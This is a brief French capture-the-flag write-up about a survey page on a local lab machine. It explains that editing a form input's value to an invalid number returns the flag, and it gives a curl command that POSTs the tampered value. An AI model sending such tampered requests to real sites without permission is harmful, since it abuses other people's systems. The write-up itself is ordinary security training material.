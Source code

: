 # Exploit 06 - Invalid POST values for survey page

Sur la [page de sondage](http://192.168.56.101/index.php?page=survey#)

il suffit de modifier la `value` de cet `input` et d'envoyer le formulaire pour obtenir le flag.

On peut automatiser la récupération du flag avec la commande:

```bash
curl 'http://192.168.56.101/index.php?page=survey#' --data 'sujet=1&valeur=1211'
```
